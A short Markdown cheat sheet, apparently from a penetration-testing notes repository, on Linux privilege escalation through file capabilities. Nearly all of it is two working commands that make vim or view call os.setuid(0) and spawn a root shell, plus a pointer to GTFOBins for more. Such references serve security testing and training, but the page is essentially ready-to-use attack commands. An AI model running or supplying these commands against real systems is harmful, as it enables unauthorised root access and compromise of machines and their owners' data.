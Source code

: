 # Linux Privilege Escalation with Set Capabilities
[< Back to Menu](README.md)
## vim
> /usr/bin/vim
```bash
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## view
> /usr/bin/view
```bash
view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## GTFOBins
For more commands to be exploited, go to [GTFOBins](https://gtfobins.github.io/#+capabilities)